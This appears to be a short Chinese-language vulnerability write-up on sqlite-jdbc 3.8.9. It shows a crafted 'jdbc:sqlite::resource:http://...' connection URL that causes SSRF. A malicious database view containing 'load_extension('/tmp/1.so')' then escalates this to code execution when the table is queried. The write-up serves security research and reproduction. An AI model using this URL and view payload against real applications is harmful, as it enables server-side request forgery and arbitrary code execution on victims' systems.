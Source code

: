 # SQLLite With SSRF

当sqllite建立连接是会调用`org.sqlite.core.CoreConnection#open`

![](img/1.png)

可以看到这里有一个extractResource

![](img/2.png)

这意味着如果我们准备一个连接，如`jdbc:sqlite::resource:http://127.0.0.1:8888/poc.db`，SQLite将连接该地址并从中获取内容。这确实会导致SSRF



如何拓展攻击面呢

参考 "[选择code_execution从 * 使用 SQLite;- 检查点研究 (checkpoint.com)](https://research.checkpoint.com/2019/select-code_execution-from-using-sqlite/)"，我们可以利用 "CREATE VIEW "将不可控的SELECT语句转换为可控。

如果我们能够控制SELECT语句，我们可以使用SELECT load_extension('/tmp/test.so')来加载dll/so并执行邪恶的代码，但是在现实世界中，在目标系统上拥有可控制的文件并不容易，而且load_extension默认设置为关闭。

首先我们对恶意的sqlite文件执行

```sql
create view y4tacker as SELECT (select load_extension('/tmp/1.so'))
```

之后当我们执行`statement.execute("SELECT * FROM security");`的时候就可以实现攻击

依赖给出便于复现

```xml
<dependency>
  <groupId>org.xerial</groupId>
  <artifactId>sqlite-jdbc</artifactId>
  <version>3.8.9</version>
</dependency>
```

